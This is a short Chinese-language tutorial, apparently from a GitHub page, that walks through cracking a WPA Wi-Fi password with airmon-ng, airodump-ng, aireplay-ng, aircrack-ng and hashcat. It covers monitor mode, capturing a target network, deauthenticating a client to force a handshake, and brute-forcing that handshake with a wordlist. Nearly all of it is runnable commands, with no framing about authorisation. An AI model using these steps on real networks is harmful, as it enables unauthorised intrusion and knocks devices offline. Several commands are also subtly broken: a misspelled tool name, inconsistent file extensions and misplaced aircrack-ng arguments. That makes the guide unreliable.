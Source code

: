 
1. 查看網絡設備, 獲取無線網卡名稱.
```bash
iwconfig
```

2. 開啓無線網卡監聽模式.
```bash
sudo airmon-ng start wlan0
```
開啓監聽模式後, 無線網卡名稱發生改變.  後面會附加`mon`(monitor), 即`wlan0mon`.

3. 監聽 Wifi 信號.
```bash
sudo airodunp-ng wlan0mon
```
當發現目標 Wifi 時按`Ctrl+C`停止掃描. 並記錄 BSSID 和 CH 兩個參數.

4. 捕獲指定 Wifi 通信內容.
```bash
sudo airodump-ng -w [.cap存檔名稱] -c [CH] --bssid [BSSID] wlan0mon
```

5. 斷開指定設備與指定 Wifi 的鏈接.
```bash
sudo aireplay-ng -0 5 -a [BSSID] -c [Target MAC] wlan0mon
```
目標設備從指定 Wifi 斷開鏈接後將嘗試衝連, 會向路由器發送握手包. 而第4步將會捕獲這個握手包.

6. 當第4步提示捕獲握手包時按下`Ctrl+C`結束監聽.
此時, 握手包的數據已經被記錄在第4步指定的`.cap`文件中.

7. 對`.cap`文件中握手包的hash進行破解.
  - 使用 Hashcat. (推薦)
    ```bash
    aircrack-ng [.cap存檔文件] -j [.haccpx文件]   # 將 .cap 文件轉爲 hashcat 接受的 .haccpx 文件
    hashcat -m 2500 -a 0 [.hccapx文件] [字典文件] # 利用 hashcat 進行破解
    ```
  - 使用 aircrack-ng.
    ```bash
    aircrack-ng -w [.cap存檔文件] [字典文件]
    ```

